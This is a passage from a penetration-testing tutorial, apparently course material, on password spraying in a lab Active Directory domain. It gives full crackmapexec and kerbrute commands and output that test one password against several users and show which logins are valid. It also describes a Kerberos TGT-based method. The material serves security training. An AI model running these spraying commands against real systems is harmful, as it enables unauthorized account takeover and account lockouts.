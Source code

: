 We'll select smb as protocol and enter the IP address of any domain joined system such as CLIENT75 (192.168.50.75). Then, we can provide a list or single users and passwords to -u and -p. In addition, we will enter the domain name for -d and provide the option --continue-on-success to avoid stopping at the first valid credential. For the purposes of this example, we'll create a text file named users.txt containing a subset of the domain usernames dave, jen, and pete to spray the password Nexus123! against.

```bash
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```

We should note that crackmapexec doesn't examine the password policy of the domain before starting the password spraying. As a result, we should be cautious about locking out user accounts with this method.

As a bonus, however, the output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has administrative privileges on the target system by appending "Pwn3d!" to the output. 

The third kind of password spraying attack we'll discuss is based on obtaining a TGT. For example, using kinit on a Linux system, we can obtain and cache a Kerberos TGT. We'll need to provide a username and password to do this. If the credentials are valid, we'll obtain a TGT. The advantage of this technique is that it only uses two UDP frames to determine whether the password is valid, as it sends only an AS-REQ and examines the response.

We could use Bash scripting or a programming language of our choice to automate this method. Fortunately, we can also use the tool **kerbrute**, implementing this technique to spray passwords. Since this tool is cross-platform, we can use it on Windows and Linux.

To conduct password spraying, we need to specify the passwordspray command along with a list of usernames and the password to spray. We'll also need to enter the domain corp.com as an argument for -d. As previously, we'll create a file named usernames.txt in C:\Tools containing the usernames pete, dave, and jen.

```bash
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```